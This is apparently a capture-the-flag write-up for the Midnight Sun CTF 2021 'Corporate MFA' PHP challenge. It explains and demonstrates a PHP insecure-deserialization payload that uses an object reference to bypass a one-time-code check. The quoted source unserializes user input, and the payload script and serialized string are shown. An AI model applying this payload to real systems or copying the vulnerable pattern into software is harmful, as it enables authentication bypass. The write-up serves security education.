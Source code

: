 ```yaml
---
tags: web
year: 2021
authors: v0n3x
---
```

# Corporate MFA

This is a write-up for the **Corporate MFA** challenge from the **Midnight Sun CTF 2021 Quals**. For this challenge we were given a website with a login form, the source code and the following description:

```
The source for this corporate zero-trust multi factor login portal has been leaked!
Figure out how to defeat the super-secure one time code.
```

![screenshot](./assets/corp-mfa-login-form.png)

Checking the source there's 2 interesting PHP files:
* index.php
* user.php

Starting with the `index.php` file, we can verify that our login input gets serialized and returned as a base64 encoded value on a `userdata` GET parameter. After that it checks if the GET parameter exists, creates a new `User` object with our input (after base64 decoded) and then proceeds to call the `verify()` function within `user.php`. Finally, if that verification is successful, it will give us our flag.
```php
if (!empty($_POST))
{
	// serialise POST data for easy logging
	$loginAttempt = serialize((object)$_POST);
	header('Location: /?userdata=' . base64_encode($loginAttempt));
	die();
}

if (!empty($_GET) && isset($_GET['userdata']))
{
	...
	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
		else
		{
			throw new InvalidArgumentException('Invalid credentials or MFA token value');
		}
	}
	...
}
```

Moving on to `user.php` the following occurs:  
At the start of the file we see that the `user` object is getting unserialized. This is where the exploit starts, our entry point.
```php
public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}
```

Now, checking our previously called `verify()` function, it's calling another 3 functions for each of our input which we gonna breakdown.
```php	
public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}
```

### verifyUsername()
```php
private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}
```
This one is pretty simple, it has the username hardcoded which is **D0loresH4ze**.

### verifyPassword()
```php
private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}
```
This verification uses the ``password_verify()`` function which checks our given password against a hash. Checking the [manual](https://www.php.net/manual/en/function.password-verify.php) for that function, we find out that the used hash is the same shown on the manual example. We now have the password **rasmuslerdorf**.

### verifyMFA()
```php
private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```
The MFA token is a generated random number, from **1e10** to **1e11 - 1** (**10000000000** to **99999999999**), that is stored to our `_correctValue` field value and then compared against our input. Can't really predict the MFA value and neither brute force it. However, we can use PHP object references and serialization format to find the correct value.

The way to solve this is by editing our serialized data and reference `mfa` to the value of `_correctValue`.

## Building the payload
To solve the problem we can edit our serialized data and make a reference to the value of `_ correctValue`.  
We use the following code for that:
```php
<?php
    $payload = array();

    $payload['username'] = "D0loresH4ze";
    $payload['password'] = "rasmuslerdorf";
    $payload['_correctValue'] = null;
    $payload['mfa'] = &$payload['_correctValue'];

    echo serialize((object)$payload);
?>
```

Giving the following serialized data:  
`O:8:"stdClass":4:{s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:13:"_correctValue";N;s:3:"mfa";R:4;}`

> The N flag is a null value and the R flag is a pointer reference, more info on that at the bottom of the writeup.

The pointer reference is to the index of **4** cause of the way PHP unserialization data gets stored. Unserialize keeps a table of all the created variables so it supports references. This table always starts at index **1**. Our data should look like this:

Index     | Variable        | Value
----------|-----------------|-------------------
1         | "stdClass"      | 
2         | "username"      | "D0loresH4ze"
3         | "password"      | "rasmuslerdorf"
4         | "_correctValue" | null
5         | "mfa"           | 4

So, `stdClass` works like an associative array for our `user` input, then `_correctValue` starts with a **null** value which will be replaced later on, as we've seen on `user.php` code. Our `mfa` points to the value of the index **4** variable (`_correctValue`).


## Flag
We can now base64 encode our final payload, use it as the value of the `userdata` parameter and send it, thus retrieving the flag.

![screenshot](./assets/flag.png)  

Flag: `midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}`

## Resources
1. [PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html#php-s-serialization-format)
2. [PHP serialization (serialize) format of the detailed](https://topic.alibabacloud.com/a/php-serialization-serialize-format-of-the-detailed_1_34_10040044.html)
3. [Utilizing Code Reuse/ROP in PHP Application Exploits](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)